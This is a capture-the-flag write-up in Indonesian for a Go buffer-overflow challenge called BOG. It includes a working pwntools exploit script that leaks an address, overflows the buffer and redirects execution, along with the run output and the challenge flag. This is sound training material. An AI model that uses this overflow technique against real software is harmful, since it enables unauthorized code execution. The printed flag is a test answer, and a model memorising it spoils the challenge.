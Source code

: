 # BOG (441 Pts)

- [BOG](#bog)
- [Deskripsi](#deskripsi)
- [Konsep soal](#konsep-soal)
- [HINT](#hint)
- [Proof of Concept](#proof-of-concept)
- [Refrensi](#refrensi)

## Deskripsi
Hanya Berbeda Pabrik

Format Flag : Hology4{}

Author : **Dolf7**

## Konsep soal
- Buffer Overflow
- Buffer Overwrite

Merupakan vulnerablity Buffer Overflow yang menggunakan bahasa Go (GoLang) yang menjadi tantangan tersendiri bagi peserta. Selain itu Untuk dapat menetukan berapa banyak buffer yang dibutuhkan digunakan sedikit teknik logika pemrograman. dalam soal ini dibuthkan pengetahuan terhadap bahas GoLang dan keterampilan menggunakan pwntools

## HINT
Tidak ada

## Proof of Concept
```
from pwn import *
p = process('./vuln')

elf = ELF('vuln')

paygo = 56

while 1:
    p.sendline(b'1')
    x2 = p.recvline()
    x3 = p.recvline()
    x2 = int(int(x2[:-1]))
    x3 = int(int(x3[:-1]))
    ab = int((x2^x3)/5)
    if( ab > 256 + paygo + 8):
        break
p.sendline(b'3')
load0 = p.recvline()
load = p64(int(load0[:-1], 16))
buff = (b'A'*(256 + paygo))
payload = buff + load
p.sendline(payload)
p.interactive()
```

ouput :
```
$ python3 solve.py 
dolf@dolf:~/Documents/POROS/Hology4/BOG$ python3 solve.py 
[+] Starting local process './vuln': pid 14406
[!] Did not find any GOT entries
[*] '/home/dolf/Documents/POROS/Hology4/BOG/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Switching to interactive mode
hology4{GOl4ng_i5_quit3_4l1_right}

unexpected fault address 0xc00002200a
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x2 addr=0xc00002200a pc=0xc00002200a]
```
hology4{GOl4ng_i5_quit3_4l1_right}

## Refrensi
- https://dev.to/jlauinger/exploitation-exercise-with-unsafe-pointer-in-go-information-leak-part-1-1kga
  
- https://dev.to/jlauinger/exploitation-exercise-with-go-unsafe-pointer-code-flow-redirection-part-2-5hgm
